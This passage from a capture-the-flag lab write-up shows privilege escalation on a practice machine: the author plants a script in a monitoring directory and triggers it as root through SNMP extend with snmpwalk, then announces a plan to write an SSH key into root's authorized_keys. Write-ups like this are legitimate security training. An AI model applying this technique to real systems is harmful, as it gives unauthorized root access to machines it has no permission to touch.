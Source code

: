 
### Execution as Root

I’ll write a simple script to `ping` my VM:

    
    
    [michelle@pit monitoring]$ echo 'ping -c 1 10.10.14.7' > check_0xdf.sh
    [michelle@pit monitoring]$ cat check_0xdf.sh
    ping -c 1 10.10.14.7
    

The script works fine as michelle:

    
    
    [michelle@pit monitoring]$ bash check_0xdf.sh
    PING 10.10.14.7 (10.10.14.7) 56(84) bytes of data.
    64 bytes from 10.10.14.7: icmp_seq=1 ttl=63 time=92.3 ms
    
    --- 10.10.14.7 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 92.259/92.259/92.259/0.000 ms
    

Now I’ll trigger it via SNMP (I can trigger just the MIB for the monitoring
script so that it doesn’t take minutes to run):

    
    
    oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
    NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1             
    NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
    NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:
    NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                    
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                     
    Memory usage
                  total        used        free      shared  buff/cache   available
    Mem:          3.8Gi       439Mi       3.0Gi       8.0Mi       393Mi       3.2Gi
    Swap:         1.9Gi          0B       1.9Gi
    ...[snip]...
    

There’s some kind of permission denied on `ping` (last two lines starting with
`NET-SNMP`), which is weird, but feels like SELinux. It does show it tried to
run the script.

### Shell

I’ll try a script that will write an SSH key into root’s `authorized_keys`
file:
